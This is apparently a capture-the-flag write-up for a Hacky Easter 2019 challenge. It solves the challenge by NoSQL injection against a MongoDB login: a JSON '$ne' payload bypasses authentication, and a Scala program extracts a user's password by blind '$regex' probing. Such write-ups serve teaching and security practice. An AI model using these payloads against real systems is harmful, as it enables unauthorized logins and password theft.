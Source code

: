 # 10 - Stackunderflow

Check out this new Q&A site. They must be hiding something but we don't know where to search.

[Stackunderflow](http://whale.hacking-lab.com:3371/)

### Description

The link brought you to a simple web similar to [Stackoverflow](https://stackoverflow.com/) with a simple Q&A section and login form.

![homepage.png](files/homepage.png "homepage.png")

### Solution

*"We're currently migrating our database to support humongous amounts of questions."* was clearly a refference to [MongoDB](https://www.mongodb.com/) - its name comes from the word *humongous*. I was pretty sure that this was a NoSQL injection challenge.

I went through the Q&A section and found one particularly interesting question asked by `the_admin`.

![question_admin.png](files/question_admin.png "question_admin.png")

It confirmed my guess and revealed the login to attack.

I moved to the login page and tried to perform a NoSQL injection but no matter what input I sent I always got error 500 from the server. So I contacted `0xI`, the author of the challenge, with suspicion that the server was not working correctly. He replied that server expects `application/json` payload instead of `application/x-www-form-urlencoded` sent by the login form itself. It might have occurred to me...

Now I was able to bypass authentication by sending this payload:

```json
{ "username": "the_admin", "password": { "$ne": "" } }
```

When logged as `the_admin` I visited Q&A section again and found a question asked by `null` which was not displayed before.

![question_null.png](files/question_null.png "question_null.png")

To steal `null`'s password I had to use blind NoSQLi technique. I wrote a Scala program for this purpose.

I started with a method which tests my assumptions on the password using vulnerability in the login form.

```scala
def test(expr: String): Boolean = {
  val payload = s"""{ "username": "null", "password": $expr }"""

  val request = new HttpPost(s"$host/login")
  request.setEntity(new StringEntity(payload))
  request.setHeader("Content-type", "application/json")

  val response = http.execute(request)
  try {
    response.getStatusLine.getStatusCode != 500
  } finally {
    response.close()
  }
}
``` 
Then I added a recursive method which steals the password character by charecter using `$regex` expression.

```scala
def stealPassword(): String = {
  val alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"

  def stealNextChar(prefix: String): Option[Char] =
    alphabet.find(c => test(s"""{ "$$regex": "^$prefix$c" }"""))

  def stealPassword(prefix: String): String = stealNextChar(prefix) match {
    case Some(c) => stealPassword(s"$prefix$c")
    case None => prefix
  }

  stealPassword("")
}
```

Then I put it together and let it do the job.

```scala
val host = "http://whale.hacking-lab.com:3371"

val http = HttpClients.createDefault()
try {
  println(stealPassword())
} finally {
  http.close()
}
```

The complete source code can be found [here](../../src/main/scala/hackyeaster2019/Egg10.scala).

Password: `N0SQL_injections_are_a_thing`

### Egg

![egg.png](files/egg.png "egg.png")
